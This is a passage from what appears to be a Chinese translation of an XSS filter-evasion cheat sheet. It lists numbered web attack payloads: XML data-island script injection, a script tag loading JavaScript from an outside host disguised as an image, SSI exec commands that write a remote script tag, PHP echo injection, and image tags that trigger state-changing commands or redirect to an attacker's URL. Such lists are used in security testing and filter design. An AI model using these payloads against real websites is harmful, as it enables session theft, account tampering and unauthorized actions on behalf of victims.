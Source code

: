 `<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> <SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>`

### 2-73 使用 XML 数据岛生成含内嵌 JavaScript 的本地 XML 文件（只在 IE 和使用 IE 渲染模式的 Netscape 8.1 下有效）

这和上面是一样的,但是将来源替换为了包含跨站脚本攻击向量的本地 XML
文件(必须在同一服务器上):

`<XML SRC="xsstest.xml" ID=I></XML> <SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>`

### 2-74 XML 中使用 HTML+TIME（只在 IE 和 IE 渲染模式下的 Netscape 8.1 有效）

这是 Grey Magic 攻击 Hotmail 和 Yahoo 的方法。这只在 IE 和 IE
渲染模式下的 Netscape 8.1 有效并且记得需要在 HTML 域的 BODY
标签中间才有效:

### 2-75 使用一些字符绕过".js"过滤

你可以将你的 JavaScript 文件重命名为图像来进行 XSS 攻击:

`<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>`

### 2-76 SSI(Server Side Includes)

这需要在服务器端允许 SSI 来使用 XSS
攻击向量。似乎不用提示这点，因为如果你可以在
服务器端执行指令那一定是有更严重的问题存在:

`<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->`

### 2-77 PHP

需要服务器端安装了 PHP 来使用 XSS
攻击向量。同样，如果你可以远程运行任意脚本，那 会有更加严重的问题

`<? echo('<SCR)'; echo('IPT>alert("XSS")</SCRIPT>'); ?>`

### 2-78 嵌入命令的 IMAGE

当页面受密码保护并且这个密码保护同样适用于相同域的不同页面时有效，这可以用来进行
删除用户，增加用户(如果访问页面的是管理员的话)，将密码发送到任意地方等等。。这
是一个较少使用但是更有价值的 XSS 攻击向量:

`<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">`

### 2-78-1 嵌入命令的 IMAGE 第二部分

这更加可怕因为这不包含任何可疑标识，除了它不在你自己的域名上。这个攻击向量使用一个
302 或
304(其他的也有效)来重定向图片到指定命令。所以一个普通的<IMG SRC="httx://badguy.com/a.jpg">对于访问图片链接的用户来说也有可能是一个攻击向
量。下面是利用.htaccess(Apache)配置文件来实现攻击向量。(感谢 Timo
提供这部分。):
